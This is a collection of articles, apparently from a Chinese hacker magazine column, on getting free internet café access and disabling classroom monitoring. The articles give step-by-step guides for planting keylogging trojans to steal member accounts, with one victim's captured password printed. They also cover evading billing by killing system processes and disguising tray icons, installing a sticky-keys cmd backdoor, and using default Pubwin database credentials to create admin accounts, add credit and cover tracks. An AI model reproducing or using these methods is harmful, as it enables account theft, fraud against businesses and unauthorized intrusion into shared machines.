接着，Pubwin 在无法运行程序的时候就进入了锁屏幕（真是很烦啊），不过在屏幕的右下角倒三角，等出现选项后点击“关机”，就会进入我们的屏幕了。如果重新出现了阻止提示的话，那肯定是您忘记勾选了拦截界面“以后都按照此操作运行”这个了。进入桌面后，我们到右下角看一下，还收费吗？废话，肯定是不收费了，如图7。


它的界面和以前使用管理员替换法成功破解的界面一样哦，破解到这一步后还要记得创建防护 PING 策略哦。  
（本文所涉及到的 E盾已收录到光盘中）


### 网吧会员也来盗

f小菜f

本人乃纯正菜鸟一只，只因正在放暑假，憋在家里倍感无聊，正巧某日几个同学相约去网吧，于是便有了下面的故事。我是学生，平时很少到网吧上网，自然也就没办会员，但令人气愤的是非会员居然比会员每小时更多交一块钱，这不明摆着是人格歧视吗？于是，小菜我就决定在该网吧盗几个会员号用用。

说到盗号，我最先想到的就是植入木马，不过虽然盗 QQ 和游戏帐号的木马非常多，但是盗网吧会员号的我还真没见过，于是我决定使用远程控制程序，试想当你远程控制了另一台电脑后，再打开键盘记录功能，那还有什么不能盗呢？

我选定了网吧中的一台电脑，记录下了内网的 IP 地址，然后打开牧羊人远程控制软件，并配置一个服务端程序，“IP地址”栏填写那台电脑内网的 IP 地址就可以了，如图1。配置好后，我们将服务端拷贝几份，存放到 U 盘中，下面就开始我们的种马之旅吧！


图1


图2

在网吧中找一台计算机，运行我们的木马，然后再换另一台电脑上登录（刚才登录那台电脑锁屏了，不过没有重启，木马还是运行中），继续种马，不一会儿的工夫我们就有了好几台网吧肉鸡了，已经显示好几台主机上线了，如图2。打开屏幕监控功能，发现远程主机还没有人登录，如图3，那就打开键盘记录功能，等待别人来登录吧！正当小菜我洋洋得意的时候，肉鸡突然集体下线了，这可急坏了我，到底哪儿出错了呢？经过一番苦思冥想，我终于发现问题还是出在网吧的计算机上。


图3

大家都知道，网吧的计算机都安装有还原系统，几分钟无人登录的话，计算机就会自动关机。看来，我得破解掉还原系统才行呀！但是我尝试了好几个工具都没有成功破解，无奈时间有限，只有试试别的方法了。我又把注意力转移到了网吧的管理软件上。据我所知，网吧管理软件的客户端是可以更改计算机自动关机时间的。当看到网管软件使用的是万象2004时，我心中一阵窃喜，因为万象2004是比较老的网管软件，所以网上的破解方法和工具都有很多。我到网上下载了一款万象2004破解版，运行后发现计算机设置的是 7 分钟无人上机便会自动关机，如图4。接下来的事情就简单了，我把这个关机时间更改为了 120 分钟，又顺便把禁用注册表和自动登录都取消掉，如图5。好了，一番设置后，再次种上木马，打开键盘记录功能，不一会儿，便记录到了一组会员号，可以看到会员号是 613，密码是 13034590136，如图6。剩下的事情就不问我多说了吧，等那人走后赶快找个地方使用他的会员帐号吧！

其实我们将万象客户端中的“协议设置”下的“IPX 协议”更改为“TCP/IP 协议”，并将远程端口与本地端口更改为 4444 便可免费上网了，如图7。不过上网时间不要太长了，否则万一被网管发现，恐怕……当然了，通过对远程计算机的控制，可以做的事情还有很多，比如盗 QQ、盗游戏帐号等等。这里，我也提醒一下大家，以后再到网吧上网，不要怕麻烦，最好重启一下电脑，因为在网吧种个木马实在太容易了！

（本文所涉及到的牧羊人远程控制、万象2004破解版已收录到光盘中）


### 也来破解凌波多媒体教学系统


Catch-22

在看了今年第3期杂志中的“破解凌波多媒体教学系统三小招”一文后，感觉作者介绍的破解方法挺简单的，当然也很实用，于是我也手痒了，就尝试着对凌波进行了破解。

#### 一、开始尝试

在系统托盘中寻找凌波多媒体教学系统的图标，结果却没有找到，在开始菜单里找到了“学生端”，运行后居然消失了，而且按“Ctrl+Win+F12”组合键也没有什么用，奇怪了，难道我们安装的 V6.9.4.0 这个版本就坚不可摧？

#### 二、偶然的发现

因为老师会经常联机，一次偶然的机会，我发现了一个方法：一个同学不小心按到了机箱上的电源键，居然就这样脱离管理了，后来这个方法立即风靡了全班。为什么会这样呢？因为在 XP（微机室里的电脑安装的都是 Windows XP SP2）的电源设置里设置的是按住电源键就是关机，所以当我们按住电源键时系统就会自动关机。看到这儿，相信许多小菜都要问了，那样的话岂不就关机了吗？但是有一点大家不知道，那就是它开着 Free Pascal（for NOI），这个程序（准确地说是这个版本）有个特点，就是系统无法自动关闭它，所以在电源键调用了关机指令后，它无法被关闭，随即电脑便回到了 Windows 环境，而这时只需要点一下“取消”就行了（还有一个键是立即结束，点了后就真的关机了），我猜想如果其它有此特性的软件可能也会达到这个效果的。

#### 三、K掉 NCClt.dll

上次的发现，大大提高了我的信心，应该还会有别的办法吧，当然有了，这是一个老方法。现在的电脑基本上都会安装 360 安全卫士（我这里安装的是 5.1.1 正式版），我们就用它来干掉 NCClt.dll（在 Windows 任务管理器的“进程”里我没有找到 NCClt.dll），最终还是从 360 的“高级”→“系统进程状态”里发现了 NCClt.dll（从我们的电脑看，有两个 NCClt.dll，但结束一个另一个也会一块儿消失），结束掉进程就行了，如图1。

#### 四、改掉 NCClt.dll

使用记事本打开 NCClt.dll，一般它的路径是“C:/Program files/lingbo/NetClass/NCClt.dll”，然后在这里边随便输点东西再保存，以此来达到破坏 NCClt.dll 的目的，但我在测试这一方法时却失败了，如图2。看来我们老师把这个文件设成了只读属性，或是设置了访问权限。鉴于这种电脑连 Internet 都不让上，也没有工具，我也只好放弃了修改。


#### 五、破坏掉 NCClt.dll


这里使用 360 安全卫士的“高级”→“文件粉碎机”功能，打开“文件粉碎机”，选择“C:/Program files/lingbo/NetClass/NCClt.dll”，勾选上“阻止被粉碎文件再次生成”，这样虽然 NCClt.dll 没有被完全删除（360 提示被粉碎），但已经被破坏了，也就不起作用了，如图3。


#### 六、恢复被控

有些微机老师很聪明，看见监控不到你，就会来看看是怎么回事，那要如何才能恢复被控呢？恢复的方法有很多：

- 重新运行学生端；
- 注销系统，重新登录（因为这种监控系统都是开机自启动的，所以注销重新登录就行了）；
- 把 NCClt.dll 修改回来（建议使用改 NCClt.dll 这种方法的同学最好不要乱改，或是做好备份）。

本文只是为了研究技术，希望能有人能够写出更好的破解方法，当然了，上课还是应该好好听讲的！

（本文所涉及到的 360 安全卫士已收录到光盘中）

### 丑陋的桌面发生的故事

312627521

这天有事和朋友在外面，但因为种种原因，必须要在附近把无聊的几个小时给耗掉，于是我们就找了家网吧，打算在网吧里虚度光阴。开卡，上机，打开电脑后，展现在眼前的却是一个让我特别无奈的桌面，如图1。本人实在是不喜欢这个只用上下左右空格操作的游戏，于是决定换掉这个桌面。

打开百度，找了一张感觉还不错的图片，把图片下载下来，然后在桌面上点击右键，选择“属性”，结果提示限制无法操作，如图2。唉，看来网管还是比较偏爱这种非主流的脑残游戏呀，要想换掉这个桌面，我还得经历点儿磨难才行。

仔细观察图片的右键快捷菜单，发觉好像少了点什么。在大多数的 XP 系统中，在图片的右键快捷菜单里都会自动有一个“设为桌面项”的选项，但是这个却没有，而桌面属性又被限制了，看来只有另寻他路了。无意中我发现在菜单上面有一个“编辑”选项，我心想是不是能在 Windows 自带的画图工具找到方法呢？


### 网吧黑客


用画图工具打开图片，在工具栏中寻找，终于在“文件”的下拉选项中看到了希望，其中有“设置为桌面（居中）”和“设置为桌面（平铺）”，如图3，哈哈，问题解决了，马上选择这个选项，桌面终于被改变了，如图4。后来我在百度图片中无意地点了一下右键，没想到在弹出的菜单中居然有“设置为背景”和“设为桌面项”等，可以直接设置图片为桌面背景，如图5，看来刚才的操作是有些杀鸡用牛刀了。但是这个方法如果网吧限制了右键快捷菜单，那么就没有作用了，而画图工具是系统自带的，网吧应该是不会限制的。

修改好了桌面，我打开 IE 浏览器准备去 X 档案的网站学习学习，但却发现网页在我面前一闪而过，开始以为是 IE 自己关闭了，可是后来再次打开，还是如此，难道也被限制了？于是我试着在百度里搜索“黑客”“破解限制”等字眼，发现网页都会自动关闭，看来这个网吧的限制是相当 BT 的，应该是后台软件监视了网页关键字。居然敢限制我上 X 档案的网站，实在是不能容忍，我开始到网上寻找解除限制的方法，小心翼翼地搜索，因为网吧实在是限制了太多的关键字。最后，终于找到了一个小工具——反关键字屏蔽器，如图6。运行程序后，就可以轻松地输入任何词语了，没有限制地上网就是舒服啊。

既然已经解除了一些限制，那就干脆来个彻底解放吧，我找出精锐网吧辅助工具，选择了“恢复所有限制并立即生效”，这回就可以随心所欲地娱乐了，如图7。

PS：我在写文章的时候，因为卡上的时间到了，结果在写到结尾的时候夭折了，我在极度郁闷的情况下，只好再次前往吧台，重新开卡，才最终完成了文章，所以在这里提醒大家，上网一定要记得充足够的钱哟，要不然发生了什么不幸会很痛苦的！

> （本文所涉及到的反关键字屏蔽器、精锐网吧辅助工具已收录到光盘中）


- 文中有亮点 ★★★
- 文中阐述了：如何破解常见的网吧网络E卡通。
- 阐述了如何利用TTPlayer和ResHacker来替换网络E卡通在任务栏里的图标。
- 来源网络：请在法律许可范围内参考。

### 网络E卡通之不花钱也上网

初级列兵甲

最近上网的时候发现网吧的计费系统又有了改变，以前使用的是万象计费软件，现在全都换成了雨人网络E卡通（据说是警察叔叔硬性规定的），还以为仍然可以只花两元就享受万象的免费上网呢（至于万象的免费上网，在以前的杂志中都曾经详细地介绍过，在此就不细说了）；看来是没有希望了。不过对于新换的这个计费软件我们仍然可以尝试着进行破解，从而实现免费上网，毕竟我等小菜手里的银子本就少得可怜，又怎能让它白白消耗呢，于是我就开始了对雨人网络E卡通的破解。

（小菜可以依葫芦画瓢，自己试试）。我发现当自己进入系统时，如果不是直接输入密码而是再一次重新启动电脑，等我们再次登录后，雨人网络E卡通就会有一些延迟才启动，在大约30秒后才锁住屏幕，这宝贵的30秒就足够我们利用的了。

思路如下：绝大多数的网吧都使用Windows XP系统，在电脑的系统盘下（一般为C盘），我们进入 `C:\Windows\System32` 目录，会发现有一个 `rsclient.exe` 应用程序，它就是雨人网络E卡通的程序，如果我们在雨人网络E卡通启动前就删掉它，那么就可以达到免费上网的目的了。

#### 一、破解全过程

##### 1、破解方法一

步骤1：我首先调出了任务管理器，查看了一下进程，经过一番查找，终于发现了两个可疑的进程，一个是 `winscript.exe`，一个是 `rsclient.exe`。接下来就是尝试结束这两个进程了，我使用冰刃同时结束这两个进程，但根本就结束不了 `rsclient.exe` 进程，刚结束它就马上又生成了一个，不过 `winscript.exe` 倒是结束了。但令我惊奇的是，雨人网络E卡通不但仍然计费，而且过了5分钟左右，系统就关机了。

这可怎么办呢？我仔细地想了一会儿，再次打开了冰刃，选择“进程”（其实结束进程使用什么工具都可以，如精锐网吧管理工具、360安全卫士等都行），首先结束 `smss.exe` 的进程，接着再结束 `winlogon.exe` 进程，最后结束 `rsclient.exe` 进程，此时雨人网络E卡通就失去了它的功能。我们用鼠标点击桌面右下角任务栏中的雨人网络E卡通的图标，它也消失了，过了大约半小时的时间电脑也没有重新启动，至此我们的破解就算成功了一半。

步骤1：首先进行正常的开机，当电脑启动时，雨人网络E卡通会很快地锁住屏幕（大约2秒左右的时间），此时按机箱上的重启按钮，当电脑再一次启动时，你会发现雨人网络E卡通并没有马上锁住屏幕，距离雨人网络E卡通再次锁住屏幕大约会有30秒左右，我们就利用这30秒的时间进入系统的 `C:\Windows\System32` 目录下并找到 `rsclient.exe` 文件将其删除，但删除后我们的操作还没有完（如果你这时什么都不做就马上上网，大约5分钟左右，系统就会关机了），还需要调出CMD窗口，然后执行 `ntsd -c q -pn smss.exe`，再执行 `ntsd -c q -pn winlogon.exe`，最后关闭CMD，到此我们就可以免费上网了。但是桌面右下角任务栏上的雨人网络E卡通图标会消失，这对我们是非常不利的，因此需要伪装起来。

步骤2：因为桌面右下角任务栏中的雨人网络E卡通的图标消失了，所以我们还要进行伪装，这样管理员就更不会怀疑了。那么怎么伪装呢，详见下文方法二中的步骤2。

当我们快到下机的时间时，雨人网络E卡通会弹出讨厌的窗口提醒我们充值，此时就按照上面的方法来进行操作，结束掉那些进程，这样就又可以免费上网了，但别忘了进行图标的伪装。

步骤2：我们可以使用ResHacker、千千静听和一个雨人网络E卡通程序的ico图标。首先启动ResHacker软件，选择“文件”→“打开”，找到千千静听的主程序（`TTPlayer.exe`）并且打开，找到图标组并且单击前面的“+”号，再单击128前面的“+”号，找到2052，使用鼠标左键单击2052图标，再把鼠标放到2052图标上单击右键，选择“替换资源”，找到雨人网络E卡通程序的ico图标进行替换，如图1，然后选择“文件”→“保存”，这时千千静听软件主程序的图标就被替换成了雨人网络E卡通程序的ico图标，如图2。最后运行千千静听，将千千静听最小化，这样雨人网络E卡通程序的图标就又出现在桌面右下角的任务栏上了，伪装成功。

也许有读者要说了，我们这样也不花钱了吗？是的，的确花钱了，但只花了相当少的钱。那我们有没有什么方法可以一分钱不花就能上网吗？这才是我们最希望的。答案是肯定的，我们完全能够做到，请看下面的破解方法。

##### 2、破解方法二

#### 三、特别提示

最近，由于我有很多资料需要上网寻找，于是就总往网吧跑，正因为如此，才让我发现了一个新的破解方法（这个破解方法针对雨人网络E卡通有效，至于其它的网吧计费系统，各位小菜可以依葫芦画瓢，自己试试）。

- 当我们结束 `smss.exe` 和 `winlogon.exe` 这两个进程时必须要注意顺序，首先结束 `smss.exe` 进程，其次再结束 `winlogon.exe` 进程，如果顺序弄反了系统就会重启。
- 有的网吧电脑在系统启动后没有 `smss.exe` 进程，而是只有 `winlogon.exe` 进程，那么我们就先结束 `winlogon.exe` 进程，再结束 `rsclient.exe` 进程，剩下的步骤仍然不变。
- 有时候我们重启一次系统可能不会等到30秒的时间，那么可以多重启几次，如此操作就会有这30秒的时间了。
- 当我们想闪身走人时，千万不要从“开始”菜单那里关机，因为那样是不能关机的，只能通过按下机箱上的重启按钮，这样才能做到重启，过一会儿电脑就会自动关机了。


图1


图2

#### 四、破解中遇到的疑惑

以上破解方法在很多网吧都有效（本人亲自测试的），可其中我遇到的一家网吧很特殊，当我们一切都做好后，除了不能上网外，本地的其它操作都可以进行，这使得我很是费解，还望网吧高手们能够指点。小编注：初级列兵甲遇到的这种情况以前在网吧破解（网管软件使用的是Pubwin4）时也遇到过类似的情况，当时的解决方法是打开“本地连接”，先停用然后再重新启用，就能正常地上网了。

本文用到的一些最基础的知识，破解是其次，重在介绍思路及方法，其基本思路来自于一次偶然的发现，千万不要放过这点滴的发现，因为我们的知识会因为这点滴的发现而变得越来越丰富。

（本文所涉及到的TTPlayer、ResHacker、`rsclient` 程序的ico图标已收录到光盘中）。

### 破解挂机锁免费上网之万象来帮忙

SKY


这天，小菜我正在网吧玩游戏，突然锁屏了，我这时才意识到是资金不足了，摸了摸小荷包，却发现没多少钱，只好在网吧里瞎转悠，突然发现了一台用挂机锁挂机的电脑，还在挂着QQ看着电影，于是我抱着试一试的态度，就试了一下密码，结果试了N久，也没有试出来，我火了，就在电脑上乱按，突然“网吧公告”从右下角弹了出来，如图1（由于在网吧挂机的时候键盘是锁定的，没有办法截图就只好用图1代替了），并且原本什么都按不了的电脑竟然可以使用原来开启了的程序，还有“开始”菜单。

我在开始菜单里看了看，没什么可以用的程序（我试了一下打开新程序，可是打开后那个程序在后面根本就操作不了），于是就在原来打开的电影播放器上寻找突破口，对着播放器的播放列表按了一下右键，弹出了一个菜单，看了看这个菜单，发现上面有一个添加文件的选项，想了一下我就点进去了，来到了C盘，默认寻找的是媒体播放文件，我们可以点击“文件类型”的下拉菜单，选择“所有文件*.*”，如图2。


图1


图2

然后进入 `C:\Windows\System32` 目录找到 `cmd.exe`，如图3，又把 `sethc.exe` 删除了，再把 `cmd` 复制了一个并把文件名改成 `sethc.exe`（可能有小菜要问了：不是锁了键盘吗，怎么还能改文件名？办法就是在 `sethc.exe` 上点右键选择“重命名”，然后复制文件名，再把复制的 `cmd.exe` 改成 `sethc.exe`）。


接下来要做的就是注销系统，注销后，来到了Windows的登录界面，我们这儿的网吧都不设登录密码的，所以直接就来到了万象的登录界面，如图4。哈哈，狂按SHIFT键，这时候CMD弹出来了（由于我们这儿网吧的安全性比较差，所以对CMD没什么限制，可能不同地方的网吧会有不同的限制，所以要视情况而变，有的可能是不能开CMD，有的就是权限不够，具体的解决方法大家就可以参照以前的杂志），现在该干什么就不用我说了吧！有一点需要记住，就是在破解的过程中千万不要按“Ctrl+Alt+Del”，我试了一下，发现按了后弹出来的窗口除了取消外不能点别的，而点了取消后再回来一看，又变成什么都按不了，只能点解锁。


### 破解蓝眼睛多媒体电子教室系统

丁济邦

开学了，学校的电脑从“Windows 98”变成了XP系统，监控系统也变成了蓝眼睛多媒体电子教室系统，如图1。记得以前，只要进入任务管理器把监控系统kill掉就可以随心所欲地玩了，但现在恐怕是不行了。打开任务管理器，发现了一个比较可疑的进程，如图2，它时而出现，时而消失，费了小菜我九牛二虎之力才看清它叫做 `student.exe`（这种名字一看就知道是监控程序），由于它一闪一闪的，一点击它的名字就没有了，根本就关闭不了，使用老招肯定是不行了，只能看着老师默默地把屏幕切换过来。可是老师一讲Flash就是半节课，看了这么多期的X，我开始了自由的反抗！

既然任务管理器不好使，那我就使用CMD，打开命令提示符CMD，执行 `taskkill /f /im student.exe`，无法关闭，看来这个蓝眼睛多媒体电子教室系统还是有点本事的。

一天，老师又要讲课了，我情急之下就打开了本地连接，选择了禁用，断开连接后，虽然老师无法对我进行监控，可是在讲完课后，还要传文件，于是我又打开了连接，但没想到问题出来了。按理说，我已经恢复了监控，应该可以切换过来屏幕，可是一件令我想象不到的事情发生了，竟然没切换过来屏幕。后来我才明白了到底是怎么一回事：当老师按“屏幕切换”键时，教师端向学生端发送了一个信号，让学生端屏幕切换过来，而我却断开了局域网，所以信号就发不过来了，而这个弱智程序竟然也不管发送没发送成功，当我打开连接时，没有信号，所以也就没有切换过来。后来，我把这个消息告诉了大家，同学们都会了，百试不爽！


后来的某一天，一同学找我，说这个办法太“手动”了，有没有更自动的？我想了想，想起了 `ntsd` 命令，新建一个文本文件，输入以下内容：

```bat
@echo off
title 监控克星 by--djb
ntsd -c q -pn student.exe
echo 已关闭!
pause
exit
```

将文件保存为 `close.bat`。关掉客户端后，还得再打开，有读者要说了：再打开不是还是监控吗？不是的，老师为了验证连接，还给学生端发送一个文件来验证连接，如果没有，那可死翘翘了。我们再新建一个文本文件，输入以下内容：

```bat
@echo off
title 打开监控 by--djb
echo 输入机器号
set /p input=
start c:\program files\蓝眼睛多媒体电子教室系统v%input%\student.exe
echo 已打开!
pause
exit
```

将文件保存为 `open.bat`，如图3，最后我把程序传到了局域网上，免费的，快点下吧^_^


### PUBWIN2007的全新玩法

李博超

在杂志的“网吧黑客”栏目里，我看到了很多关于PUBWIN2007的文章，但无非是利用1433弱口令加钱或者入侵主机等，为此我特地对PUBWIN2007的服务端进行了透彻的研究，今天就给大家带来几种全新的玩法！

俗话说：知己知彼，百战不殆。绝大多数小菜都只是停留在对PUBWIN客户端的研究上，前段时间我在自己家的三台电脑上分别安装了PUBWIN2007的服务端、控制台和客户端，进行了详细的研究，在此就分享给大家。关于利用网吧PUBWIN2007服务器上的1433端口没有屏蔽，以及存在默认数据库用户名 `netcafe`、默认密码 `pubwin`、默认数据库名称 `local` 的漏洞来进行加会员和加钱的文章，在前几期的杂志里都已经介绍过了，本文我要介绍的是WEB控制台的利用。

PUBWIN2007服务器除了可以用控制台管理外，还可以使用WEB控制台管理，WEB控制台的管理地址为“`https://主机IP/NetCafe`”，这里需要注意的是，一定要是https，而不是http，因为它使用的是https协议，而后面NetCafe中的N和C一定要大写。在浏览器中输入该WEB管理地址后就会打开WEB管理后台了，如图1。


可是我们没有管理员用户名和密码怎么办呢？不用着急，我们打开平时经常用来加钱的工具“数据库查看器”，使用默认用户名 `netcafe`、默认口令 `pubwin`、默认数据库名 `local` 来连接PUBWIN服务器的MSSQL数据库，找到 `cfg_adminaccount` 和 `cfg_adminrole` 这两个表，就会发现这里保存的是所有PUBWIN管理员的用户名和密码，如图2。不过密码是HASH加密的，单向散列算法，不可逆，也就是说不可以还原回明文密码。


图2

不过我们并不需要去动他的用户，而是自己来添加一个用户，点击数据库查看器上方的红色加号按钮进行添加操作。具体要添加的内容我已经为大家准备好了，收录在光盘中，大家照着添加进去就行了。添加完后别忘了点保存，然后返回我们的WEB控制台，输入用户名 `cfan` 和密码 `hacker`，就能登录进入后台了，如图3。哈哈，在这里可以管理整个网吧的营业规则以及查看营业数据，还可以监视每台客户机的屏幕以及在客户机上运行命令等，具体的就请大家自己去体会吧。


图3

接着我们再看控制台，也就是收银台的电脑上安装的控制台。我们只需要从PUBWIN官方网站上下载PUBWIN2007控制台然后进行安装，安装完成后先别忙着运行，我们打开刚才的WEB控制台，在系统“管理选项”→“网络成员”→“控制台”里添加控制台IP地址，也就是你的IP地址，然后保存，如图4。


图4

在首次运行时会要求注册控制台，如图5，这时只需要输入PUBWIN服务器的IP地址即可，接着输入刚才我们登录WEB后台的用户名 `cfan` 和密码 `hacker` 就可以打开控制台了。至于功能就不用我多说了吧，加钱只是小事而已。玩够了就删除我们添加的控制台IP地址以及在数据库里建立的管理员用户就行了，PUBWIN服务器不会有任何记录的，最多只有管理员登录的时间记录，没有记录具体是哪个管理员，也没有记录IP地址，大家完全不用担心的，这点我研究过了。


图5

> （文章中所用到的PUBWIN数据库添加内容.txt、数据库查看器已收录到光盘中）


### 看我来破解极域电子教室

许建轩（xjx363631317）

我们学校机房安装的管理系统是“极域电子教室4.2专业版”，每次上课时老师总会用“屏幕广播”控制住我们的电脑，从而进行教学工作，可我实在是无法忍受自己的自由受到限制，于是便对这套系统进行了破解。

### 网吧黑客

调出系统的任务管理器，很明显，其中的 `StudentMain.exe` 就是学生端的进程了，尝试直接结束进程，自然是不可能的，提示拒绝访问，如图1，但是我们却可以借助别的工具，刚好我的U盘里有SysCheck，双击运行后，勾选上 `StudentMain.exe` 进程，然后点击“结束进程”就行了，如图2。


可是手头没有工具，那我们又该怎么办呢？还是来寻找手工破解的方法吧。其实在这之前我们学校机房安装的是极域4.0版的，其学生端程序为 `Student.exe`。当时我的破解方法就是把这个 `Student.exe` 改成别的名字，然后注销一下就可以成功了（记得以前我曾使用这个方法破解了旧版的万象网管2004，从而逃费上网）。不过再使用这个旧方法来对待极域4.2版已经无效了，当我把 `StudentMain.exe` 重命名时，就会遭到拒绝，如图3。

这个方法不行，我们再来想想其它的方法，这时我突然想到了以前一个用来禁止程序运行的方法，具体操作就是在 `StudentMain.exe` 的同目录下新建一个内容为空的文本文档，然后改名为 `ws2_32.dll`，如图4，接着注销一下系统，重新登录后果然破解成功了。当再次运行 `StudentMain.exe` 时，系统就会提示“`ws2_32.dll` 为无效的Windows映像”，如图5。


我来解释一下其中的破解原理吧，其实真正的 `ws2_32.dll` 是一个位于系统文件夹中的动态链接库文件，几乎所有的网络程序都要调用这个DLL文件中的API函数来进行网络通信，而当程序调用动态链接库文件时，就会先在应用程序的当前目录中进行搜索，如果没有找到才会到Windows、System32、System这些系统文件夹中进行搜索。因此，当 `StudentMain.exe` 优先调用了我们新建的那个没用的DLL文件后，自然也就会导致无法正常运行了。

其实并非只是 ws2_32.dll 这个文件才可以，只要是程序运行时所必需加载的 DLL，我们都可以将其进行替换，从而导致程序无法正常运行。那我们要怎样才能知道程序在运行时到底加载了哪些 DLL 呢？使用 LordPE 这个工具就可以。运行 LordPE，其主界面如图6所示，点击“PE编辑器”来选择目标程序，例如 StudentMain.exe，在弹出的窗口中点击“目录”按钮，就会看到“目录表”窗口，如图7。接着点击“输入表”后面的“...”按钮，就能看到该程序需要加载的 DLL 了，如图8。

这一招“偷梁换柱”的方法其实还可以用到其它的程序上，例如破解其它的电子教室系统或者是禁止别人运行某个程序等。根据以上的破解原理，我使用 VB 编写了个小程序，可以用来破解 4.0 版和 4.2 版的极域电子教室；其界面如图9所示，使用非常简单，送给那些懒得手工破解的小菜 ^_^。

（文章中所用到的极域电子教室破解器、Syscheck、LordPE 增强版已收录到光盘中）

### 轻松干掉方正电脑基教版

jayyangchen

看了一年多的《黑客X档案》，感觉其中的许多栏目都非常适合我等还在学校苦读的小菜。我特别关注破解多媒体教学类的文章，大家一定也想在上课时能 hack 一把吧，那就接着往下看。

我们学校的电脑教室统一采用的是“方正电脑基教版 2006 sp2”，用户帐号类型为受限类型，禁止了进程管理器，系统中安装了瑞星杀毒软件和瑞星防火墙，还原软件使用的是“超级还原”（真是一款名副其实的超级还原软件呀，我到现在还没有干掉它呢）。

#### 方法一、拔网线

这个通用的破解方法就不给大家截图了，实在是老少皆宜，人人必备呀，特别适合那些私下里打单机游戏的用户。

#### 方法二、防火墙拦截

这种方法也是大多数同学所用的。打开防火墙，如图1，把安全级别调到最高，这样就会拦截“student.exe”进程发送的数据包了。更有效的一种方法是在防火墙的“访问控制”中找进程注释名为“方正电脑基教版”的进程，如图2。这里我一共找到了三个，一个是主程序，一个是摄像头监控，还有一个是发送文件的，如图3。在找到进程后双击，就会弹出一个编辑栏，如图4，在“常规模式”中选择“禁止”，然后点击“确定”就行了。

#### 方法三、第三方软件

我使用了一款名为“追影虚拟多桌面”的软件，其界面如图5所示，在《黑客X档案》杂志上曾经有过介绍，这里就不多讲了。还有一款软件名叫“方正杀手”，是学校的前辈们使用 VB 编写的，如图6，使用非常简单，是利用了老师没有禁止的“Shift+F4”组合键来结束进程的。

#### 方法四、新建文件

就是新建一个文本文件（Word 或者 txt 文件都可以），在里面随便写点什么，然后把文件最小化（不要退出呀），接着继续玩就行了。等老师开始讲课时按主机的关机按钮（轻轻地按一下就行了，不要一直按着不放），然后系统就会弹出“是否保存文件”的对话框，如图7，我们点击“取消”，这样就退出屏幕监控了！

#### 方法五、进阶方法

上述几种方法各有所长，但也有不好的地方，因为老师在讲课时会时不时地看谁的电脑没有连接上，如果不小心被逮住了那就麻烦了，所以我们通常是结合几种方法来进行。比如我就是先使用虚拟桌面软件来虚拟出几个桌面，然后在主桌面打开“方正杀手”，等老师监控时就在虚拟桌面玩游戏，而老师下讲台时就切换到主桌面继续听课。老师一转身就使用“方正杀手”结束掉屏幕监控，然后抓住还原时的几秒钟切换到虚拟出来的桌面中继续玩（因为“追影虚拟多桌面”的切换热键是“Ctrl+←”或“Ctrl+→”，而此时这几个键早已被禁用了），还有强人更是直接把方正杀手替换掉“Shift”后门。所以破解其实很简单，只要思路好，破解就难不倒！

（文章中所用到的方正杀手、追影虚拟桌面已收录到光盘中）

本次主攻对象：  
破解万象、Pubwin  
通杀万象 2004、2006、2008

### 秒杀万象2004和2008

XIYANG

我曾经在网上收集了一些破解万象的工具，可惜在四川赤水这边的网吧都没有使用成功，不过今天我终于成功了，在此就把方法介绍给大家。这些方法在一些限制不太多的网吧还是可用的，至少我这儿的网吧就行。

我们这儿的网吧使用最多的网管软件就是万象 2004 和万象 2008，我的目标就是干掉它。首先要用到万象幽灵 2009 这款软件，打开后的主界面如图1所示。

点击其中的“秒杀万象.exe”，接下来就是查看电脑上使用的是什么收费系统：如果是万象2004就输入 1 回车，如果是万象2006就输入 2 再回车，如果是万象2008就输入 3 再回车，如图2，然后再按任意键注销系统。

注销后不要直接登录，而是使用空密码登录。经过我的测试，万象2004和2008都可以破解，2006没有进行测试，不过应该也没什么问题。整个过程就是这么简单，不过要小心，千万不要被网管发现了哦。破解后的电脑在网管那里是显示没有人上机的，所以只要网吧上机的人不多，还是比较安全的。

（文章中所用到的万象幽灵2009已收录到光盘中）

本次主攻对象：  
利用虚拟桌面以及万象幽灵2008来搞定万象2004和 Pubwin2007

### 一招来搞定万象2004和Pubwin2007

全球经济危机严重，居然连网吧的上网费也涨价了，唉，这日子可怎么过啊！这天我跑去网吧上网，一掏口袋发现就只剩 2 元钱了，于是就决定自己动手来免费上网。

我这儿的网吧环境是 Windows XP + 万象2004（也不知怎么回事，总是使用2004版的万象），尝试了一下以前常用的免费上网方法，发现都不管用，于是我决定使用“追影虚拟桌面 v1.0.2”的虚拟桌面来免费上网。

大家都知道网吧里的电脑开机后没人上机，过几分钟就会自动关机。如果直接使用虚拟桌面，只要系统桌面被锁屏，几分钟后就会自动关机。我们要想免费上网就要阻止万象的关机行为。我问好友有什么办法可以阻止程序关机，他发过来一个文件说有阻止关机的功能，我试了一下果然如此。另外我们还需要“万象幽灵2008”用来进行万象图标的伪装。所需工具都准备好了，开工！

首先运行“阻止关机程序”，点击“阻止关机”按钮，如图1，接着点击“隐藏”按钮，然后打开“追影虚拟桌面 v1.0.2”，按照程序给出的提示，按“Ctrl+方向键”切换到虚拟桌面，如图2。现在我们就摆脱了万象的控制，并且阻止了它的关机行为，如图3。

为了安全起见，我们还要进行万象图标伪装。运行“万象幽灵2008”，选择“万象图标伪装”功能，点击“开始伪装”就行了，如图4。

经过测试我发现使用同样的方法还可以摆脱 Pubwin2007 的控制，只不过所用的图标伪装工具不同罢了，在此就不再介绍了。

最后要提醒大家，不能上得太久了，因为你上的越久越容易被暴露，尤其是在人多的时候。一定要记住：上网诚可贵，安全价更高！

（文章中所用到的 Pubwin2007 伪装破解精灵、万象幽灵2008、追影虚拟多桌面 v1.0.2 和阻止关机的程序已收录到光盘中）

### 浅谈网吧安全防范

BaseNet

一直以来我们都在讨论网吧限制的突破、网吧服务器的入侵及网吧如何免费上网，但是安全是一个相对的话题。如果我们是网吧管理员的话，那又该如何更好地管理网吧呢？

#### 一、多层交换网络的整体架构

一般来说网吧最重要的两个设备就是交换机和路由器。对于交换机而言，它与 HUB 集线器的根本不同有两点：一是交换机工作在数据链路层，而 HUB 工作在物理层；二是交换机类似于双工通信方式，而集线器是一种单工通信方式。之所以使用交换机，不仅是它在网络能力上比 HUB 优秀，还在于它可以划分 VLAN——虚拟局域网。

